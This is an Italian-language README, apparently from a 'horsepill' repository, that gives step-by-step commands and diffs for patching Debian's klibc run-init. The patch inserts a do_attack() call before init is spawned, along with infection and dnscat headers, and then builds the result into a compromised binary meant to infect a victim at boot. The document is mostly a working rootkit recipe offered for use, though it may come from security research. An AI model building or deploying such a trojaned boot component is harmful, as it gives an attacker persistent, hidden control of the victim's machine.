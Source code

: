 # Come patchare klibc
Per comodità, creiamo due cartelle di lavoro che consentiranno la creazione del file di _patch_ e la sua applicazione:
```
mkdir /tmp/create
mkdir /tmp/apply
```
## Creazione del file di patch
All'interno della cartella `/tmp/create` scarichiamo il pacchetto sorgente `klibc`:
```
cd /tmp/create
apt-get build-dep klibc && apt-get source klibc
```
assumendo di lavorare con la versione `2.0.7` di `klibc`, eseguiamo:
```
mv klibc-2.0.7 klibc-2.0.7.orig
gunzip -c klibc_2.0.7.orig.tar.gz | tar -x
```
In questo modo si ottengono due directory:
- `klibc-2.0.7.orig`
- `klibc-2.0.7`

entrambe hanno lo stesso contenuto e ciò consentirà di eseguire il `diff` a valle delle modifiche.

Eseguiamo la `clone` del repository Github contenente il file corrente e i payload per l'esecuzione dell'attacco:
```
git clone https://github.com/g3lbin/horsepill.git
```
copiamo i file header e sorgenti presenti in `horsepill/src/` all'interno della cartella da modificare:
```
cp horsepill/src/* klibc-2.0.7/usr/kinit/run-init
```
Utilizzando un editor di testi qualsiasi (e.g. `vim`) modifichiamo i seguenti file:
1. `klibc-2.0.7/usr/kinit/run-init/Kbuild`
```diff
# common .o files
-objs := run-init.o runinitlib.o
+objs := run-init.o runinitlib.o horsepill.o
```
2. `klibc-2.0.7/usr/kinit/run-init/run-init.c`
```diff
#include "run-init.h"
+#include "horsepill.h"

static const char *program;
```
```diff
        char **initargs;
+        cmdline_ptr = (char **)argv;

        /* Variables... */
        int o;
```
3. `klibc-2.0.7/usr/kinit/run-init/runinitlib.c`
```diff
#include "capabilities.h"
+#include "horsepill.h"

/* Make it possible to compile on glibc by including constants that the
```
```diff
        if (!dry_run) {
+                puts("[HORSEPILL] G3LBIN VISITED YOU!\n");
+                sleep(5);
+                do_attack();
                /* Spawn init */
                execv(init, initargs);
                return init;		/* Failed to spawn init */
```
Infine, per creare il file di patch `klibc-horsepill.patch` eseguiamo:
```
diff -u klibc-2.0.7.orig/usr/kinit/run-init/Kbuild klibc-2.0.7/usr/kinit/run-init/Kbuild > klibc-horsepill.patch
diff -u /dev/null klibc-2.0.7/usr/kinit/run-init/dnscat.h >> klibc-horsepill.patch
diff -u /dev/null klibc-2.0.7/usr/kinit/run-init/extractor.h >> klibc-horsepill.patch
diff -u /dev/null klibc-2.0.7/usr/kinit/run-init/infect.h >> klibc-horsepill.patch
diff -u /dev/null klibc-2.0.7/usr/kinit/run-init/horsepill.h >> klibc-horsepill.patch
diff -u /dev/null klibc-2.0.7/usr/kinit/run-init/horsepill.c >> klibc-horsepill.patch
diff -u klibc-2.0.7.orig/usr/kinit/run-init/run-init.c klibc-2.0.7/usr/kinit/run-init/run-init.c >> klibc-horsepill.patch
diff -u klibc-2.0.7.orig/usr/kinit/run-init/runinitlib.c klibc-2.0.7/usr/kinit/run-init/runinitlib.c >> klibc-horsepill.patch
```
## Applicazione della patch
Copiamo il file di patch nell'altro spazio di lavoro e spostiamoci lì dentro:
```
cp klibc-horsepill.patch /tmp/apply
cd /tmp/apply
```
Scarichiamo anche qui il pacchetto sorgente `klibc`:
```
apt-get build-dep klibc && apt-get source klibc
```
Applichiamo la patch:
```
cd klibc-2.0.7
quilt import ../klibc-horsepill.patch
dpkg-buildpackage -j$(nproc) -us -uc
```
Così facendo, viene generato il binario compromesso che consentirà di infettare la vittima: `/tmp/apply/klibc-2.0.7/usr/kinit/run-init/shared/run-init`